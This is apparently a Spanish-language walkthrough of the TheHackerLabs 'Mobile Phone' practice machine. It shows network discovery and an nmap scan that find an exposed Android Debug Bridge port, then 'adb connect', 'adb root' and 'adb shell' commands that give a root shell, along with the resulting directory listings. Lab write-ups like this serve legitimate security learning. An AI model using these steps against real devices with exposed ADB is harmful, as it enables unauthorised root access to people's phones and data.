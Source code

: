 Lo primero que haremos sera ir a la pagina de "TheHackerLabs" y concretamente a la siguiente direccion para descargar la maquina "Mobile Phone":
https://thehackerslabs.com/wp-content/uploads/2024/06/The%20Hackers%20Labs%20-%20Mobile%20Phone.zip
Una vez descargada (es una ".ova"), y montada en nuestro programa de maquinas virtuales, empezaremos usando un ARP-SCAN (o NETDISCOVER) para hallar la IP de la maquina victima:
```
arp-scan -I eth0 --localnet
netdiscover -i eth0 -r 192.168.1.0/24
```
Despues, pasaremos a realizar un NMAP:
```
nmap -p- --open -sS -sC -sV --min-rate 3000 -n -vvv -Pn IPMAQUINAVICTIMA -oN NOMBREDEARCHIVO
```
descubriendo el siguiente puerto abierto:
```
Discovered open port 5555/tcp on 192.168.1.145
```
En Android, el puerto 5555 es el puerto por defecto de "adb" que es una herramienta que se utiliza para conectar nuestro movil con nuestro PC, de tal forma que podamos cambiarle la ROM, o actualizar aplicaciones, entre otras cosas.
Como informacion adicional tenemos:
```
PORT     STATE SERVICE  REASON         VERSION
5555/tcp open  freeciv? syn-ack ttl 64
MAC Address: 08:00:27:97:06:EB (Oracle VirtualBox virtual NIC)
```
Bien, entonces vamos a ir a la pagina "HackTricks" para investigar un poco mas el servicio que corre por este puerto, y concretamente a esta direccion:
https://book.hacktricks.xyz/v/es/network-services-pentesting/5555-android-debug-bridge
Si leemos, vemos que tal y como hemos dicho al principio, este puerto hace referencia al Android Debug Bridge (adb), y que a dia de hoy, si se esta ejecutando este servicio y nos podemos conectar al dispositivo, es relativamente sencillo obtener una shell dentro del sistema.
Asi que vamos a probar si funciona, empezando por escribir en la terminal el comando:
```
adb connect 192.168.1.145   <=== Igual nos piden instalar "adb". OJO !!
```
recibiendo la siguiente informacion por pantalla:
```
* daemon not running; starting now at tcp:5037
* daemon started successfully
connected to 192.168.1.145:5555
```
Perfecto, nuestro siguiente paso ahora seria intentar escalar privilegios y convertirnos en administrador "root". Para ello escribimos:
```
adb root
```
y parece que funciona:
```
restarting adbd as root
```
Y finalmente nos quedaria intentar conseguir una "shell", que haremos con el comando:
```
adb shell
```
Donde vemos que funciona, incluso pudiendo navegar perfectamente por sus directorios:
```
root@x86_64:/ # whoami
root

root@x86_64:/ # ls
acct
cache
charger
config
d
data
default.prop
dev
etc
file_contexts
fstab.android_x86_64
init
init.android_x86_64.rc
init.bluetooth.rc
init.environ.rc
init.rc
init.superuser.rc
init.trace.rc
init.usb.configfs.rc
init.usb.rc
init.zygote32.rc
init.zygote64_32.rc
lib
mnt
oem
proc
property_contexts
sbin
sdcard
seapp_contexts
selinux_version
sepolicy
service_contexts
storage
sys
system
ueventd.android_x86_64.rc
ueventd.rc
vendor

root@x86_64:/ # cd storage

root@x86_64:/storage # ls
emulated
self

root@x86_64:/storage # cd self
root@x86_64:/storage/self # ls
primary

root@x86_64:/storage/self # cd primary
root@x86_64:/storage/self/primary # ls
Alarms
Android
DCIM
Download
Movies
Music
Notifications
Pictures
Podcasts
Ringtones
storage

root@x86_64:/storage/self/primary # 
```
Y listo !! Ya tendriamos esta maquina Android hecha. Es muy sencillita y esta bien como primer contacto con Android.
